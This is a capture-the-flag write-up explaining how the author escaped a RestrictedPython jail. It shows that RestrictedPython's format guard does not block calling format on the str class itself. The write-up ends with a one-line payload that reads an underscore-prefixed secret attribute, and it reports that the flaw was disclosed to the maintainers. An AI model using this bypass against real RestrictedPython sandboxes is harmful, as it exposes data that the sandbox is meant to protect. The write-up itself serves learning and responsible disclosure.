 # **wow it's another pyjail**
This may or may not require a zeroday.

## **Description**
We get a python file `jail.py`.
```py
from RestrictedPython import safe_globals
from RestrictedPython import utility_builtins
from RestrictedPython import compile_restricted
from RestrictedPython import Eval
from RestrictedPython import PrintCollector
from RestrictedPython import Guards
policy_globals = {**safe_globals, **utility_builtins}
del policy_globals['string'] # ok like who needs string.Formatter tho like i dont
policy_globals['random']._________top_secret_flag_in_here_omg______ = open("flag.txt").read()
cod = input(">>> ")
byte_code = compile_restricted(cod, filename="<string>", mode="eval")
print(eval(byte_code, policy_globals, None))
```

The actual python code uses a library called `RestrictedPython`. According to their repo,
> RestrictedPython is a tool that helps to define a subset of the Python language which allows to provide a program input into a trusted environment. RestrictedPython is not a sandbox system or a secured environment, but it helps to define a trusted environment and execute untrusted code inside of it.

By default, RestrictedPython provides certain modified builtins that indent to prevent malicious code executing. For example, here is the full modified builtins that is provided as `policy_globals`.

```py
{'__builtins__': {'__build_class__': <built-in function __build_class__>, 'None': None, 'False': False, 'True': True, 'abs': <built-in function abs>, 'bool': <class 'bool'>, 'bytes': <class 'bytes'>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'complex': <class 'complex'>, 'divmod': <built-in function divmod>, 'float': <class 'float'>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'int': <class 'int'>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'len': <built-in function len>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'range': <class 'range'>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'slice': <class 'slice'>, 'sorted': <built-in function sorted>, 'str': <class 'str'>, 'tuple': <class 'tuple'>, 'zip': <class 'zip'>, 'ArithmeticError': <class 'ArithmeticError'>, 'AssertionError': <class 'AssertionError'>, 'AttributeError': <class 'AttributeError'>, 'BaseException': <class 'BaseException'>, 'BufferError': <class 'BufferError'>, 'BytesWarning': <class 'BytesWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'EOFError': <class 'EOFError'>, 'EnvironmentError': <class 'OSError'>, 'Exception': <class 'Exception'>, 'FloatingPointError': <class 'FloatingPointError'>, 'FutureWarning': <class 'FutureWarning'>, 'GeneratorExit': <class 'GeneratorExit'>, 'IOError': <class 'OSError'>, 'ImportError': <class 'ImportError'>, 'ImportWarning': <class 'ImportWarning'>, 'IndentationError': <class 'IndentationError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'LookupError': <class 'LookupError'>, 'MemoryError': <class 'MemoryError'>, 'NameError': <class 'NameError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'OSError': <class 'OSError'>, 'OverflowError': <class 'OverflowError'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'ReferenceError': <class 'ReferenceError'>, 'RuntimeError': <class 'RuntimeError'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'StopIteration': <class 'StopIteration'>, 'SyntaxError': <class 'SyntaxError'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'SystemError': <class 'SystemError'>, 'SystemExit': <class 'SystemExit'>, 'TabError': <class 'TabError'>, 'TypeError': <class 'TypeError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeError': <class 'UnicodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'UserWarning': <class 'UserWarning'>, 'ValueError': <class 'ValueError'>, 'Warning': <class 'Warning'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'setattr': <function guarded_setattr at 0x7efe948a51b0>, 'delattr': <function guarded_delattr at 0x7efe948a5510>, '_getattr_': <function safer_getattr at 0x7efe948a55a0>}, 'math': <module 'math' (built-in)>, 'random': <module 'random' from '/usr/lib/python3.10/random.py'>, 'whrandom': <module 'random' from '/usr/lib/python3.10/random.py'>, 'set': <class 'set'>, 'frozenset': <class 'frozenset'>, 'same_type': <function same_type at 0x7efe948a5900>, 'test': <function test at 0x7efe948a7490>, 'reorder': <function reorder at 0x7efe948a7d00>}
```

We can notice some missing builtins, such as `breakpoint`. We can also see some new functions such as `test` and `reorder`, which are added by RestrictedPython. And finally, we can see that some of the methods such as `delattr`, `setattr`, `_getattr`, are replaced with a `guarded_*` or `safer_*` method, also provided by the library.

Finally we can look at the main part of the challenge. The flag is simply an attribute of the `random` module, so all we have to do is access it. As the challenge description hints, this might require a zero day, which gives us a good lead that the RestrictedPython source code would be a good start.

## **Solution**
We can start by looking at the source code of RestrictedPython. A direct start would be to try simply accessing the property in question.

```py
random._________top_secret_flag_in_here_omg______
```

However we will see that this will fail, and looking closer into it locally, we get an error since the attribute we are trying to access starts with an underscore. 
```py
SyntaxError: ('Line 1: "_________top_secret_flag_in_here_omg______" is an invalid attribute name because it starts with "_".',)
```

`RestrictedPython` prevents access to attributes with underscores in the name, which we can see in the implementation of `safer_getattr` in [Guards.py](https://github.com/zopefoundation/RestrictedPython/blob/master/src/RestrictedPython/Guards.py).

```py
def safer_getattr(object, name, default=None, getattr=getattr):
    """Getattr implementation which prevents using format on string objects.

    format() is considered harmful:
    http://lucumr.pocoo.org/2016/12/29/careful-with-str-format/

    """
    if isinstance(object, str) and name == 'format':
        raise NotImplementedError(
            'Using format() on a %s is not safe.' % object.__class__.__name__)
    if name.startswith('_'):
        raise AttributeError(
            '"{name}" is an invalid attribute name because it '
            'starts with "_"'.format(name=name)
        )
    return getattr(object, name, default)
```

Since the base getattr function is being overwritten with this, there is not really any other way to simply access attributes with an underscore. But looking at this source code a bit more closely, we can also see the implemention of getting `format`, along with a link describing some of the dangers of format.

For example, if we try,
```py
"{}".format(1)
```

We get the error,
```py
NotImplementedError: Using format() on a str is not safe.
```

However looking at the implementation, specifically the check in getting format, its clear that there is a flaw in its implementation.
```py
if isinstance(object, str) and name == 'format':
    ...
```

We are restricted from accessing an attribute called function from an object of type string, but we can also access format from `str` directly. `str` is an instance of class `type`, so this check will not prevent access to it.

Format strings also allow accessing attributes in them directly, and we can use parameterized arguments in order to access the intended target attribute.

Final payload:
```py
str.format('{0._________top_secret_flag_in_here_omg______}', random)
```

I am quite happy with this solution, in the end of the CTF, we were the only team to solve this challenge. I was a bit surprised because I believed the actual issue wasn't *tooo* hard to find. In fact, I had actually found this issue over a month prior in UIUCTF. This was not used in the solution to the challenge there, but still was definately an unintended ability in this library. 

Following the CTF, the challenge author and I had reported this to the library maintainers, and they promptly got back to us with a potential fix they intend to use. 

---
## **Flag**: `LITCTF{https://github.com/zopefoundation/RestrictedPython/blob/master/src/RestrictedPython/Guards.py#L249_is_insufficent_so_sad}`

